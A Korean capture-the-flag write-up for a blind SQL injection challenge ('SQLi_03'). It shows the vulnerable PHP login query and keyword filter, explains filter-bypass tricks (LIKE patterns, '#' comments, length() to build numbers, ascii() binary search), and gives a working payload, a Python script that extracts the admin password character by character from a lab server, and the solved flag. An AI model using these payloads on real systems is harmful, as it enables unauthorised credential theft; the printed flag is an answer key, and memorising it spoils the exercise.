

# 09. SQLi_03

## 문제 설명
로그인 쿼리 결과가 admin이면 `Hello admin`, 다른 계정이면 `Hello <id>`, 없으면
`login fail`만 출력한다. flag(admin의 비밀번호)를 직접 보여주지 않으므로,
참/거짓 반응만으로 비밀번호를 한 글자씩 알아내는 Blind SQLi이다.

```php
$q = "SELECT userid FROM sqli3_table WHERE userid='$uid' AND userpw='$upw'";
...
if ($u === 'admin') echo 'Hello admin'; else if ($u) echo 'Hello '.htmlspecialchars($u); else echo 'login fail';
```

## 필터 분석
```php
if(preg_match("/or|union|admin|\||\&|\d|-|\\|\x09|\x0b|\x0c|\x0d|\x20|\//",$t)) die('no hack..');
```
차단: `or`, `union`, `admin`, `|`, `&`, **모든 숫자**, `-`, `\`, **모든 공백**, `/`.

## 우회 기법
Blind SQLi에 필요한 요소들을 필터를 피해 구성한다.

- **admin 매칭**: `admin` 문자열 대신 `like('adm%')` 패턴 사용.
- **공백**: 함수 인자를 괄호로 감싸 공백 없이 호출 (`substring(...)`, `like(...)`).
- **뒷부분 주석**: `#` 으로 `AND userpw=...` 제거.
- **숫자 생성**: 숫자를 못 쓰므로 위치·비교값을 `length('aaaa...')`(문자 반복 길이)로 생성.
- **글자 판별**:
  - 비숫자 문자 → `substring(userpw, 위치) like 'X%'`
  - 숫자 → `.` < 글자 < `a` 로 숫자임을 판별 후, `ascii()` 값을 이분탐색.
  - LIKE 와일드카드(`_`, `%`)는 매칭 후보에서 제외해 오탐 방지.

각 글자마다 참이면 `Hello admin`, 거짓이면 `login fail`이 반환되는 것을 이용해
비밀번호를 처음부터 한 글자씩 확정한다.

## 익스플로잇

### 페이로드 예시 (N번째 글자가 X인지 검사)
```
'like('adm%')and(substring(userpw,length('aa...a'))like('X%'))#
```

### 자동화 스크립트 (Python)
```python
import requests

BASE = "http://edu.arang.kr:9203"
CHARSET = "abcdefghijklmnopqrstuvwxyz{}"


def query(payload):
    r = requests.get(BASE, params={"userid": payload, "userpw": "x"})
    if "no hack" in r.text:
        return None
    return "Hello admin" in r.text


def sql_number(n):
    return "length('" + "a" * n + "')"


def check(condition):
    return query(f"'like('adm%')and({condition})#")


def matches_char(position, ch):
    return check(f"substring(userpw,{position})like('{ch}%')")


def is_digit(position):
    return check(
        f"substring(userpw,{position})<'a'and(substring(userpw,{position})>'.')"
    )


def find_digit(position):
    low, high = ord("0"), ord("9")
    while low < high:
        mid = (low + high) // 2
        if check(f"ascii(substring(userpw,{position}))>{sql_number(mid)}"):
            low = mid + 1
        else:
            high = mid
    return chr(low)


def find_char(position):
    if is_digit(position):
        return find_digit(position)
    for ch in CHARSET:
        if matches_char(position, ch):
            return ch
    return None


def main():
    password = ""
    while True:
        position = sql_number(len(password) + 1)
        ch = find_char(position)
        if ch is None:
            break
        password += ch
        print(password)
        if ch == "}":
            break
    print("flag:", password)


if __name__ == "__main__":
    main()
```

스크립트를 실행하면 비밀번호가 한 글자씩 확정되며 flag가 완성된다.



## 플래그
```
flag{c8d56212687cc5f582d4}
```
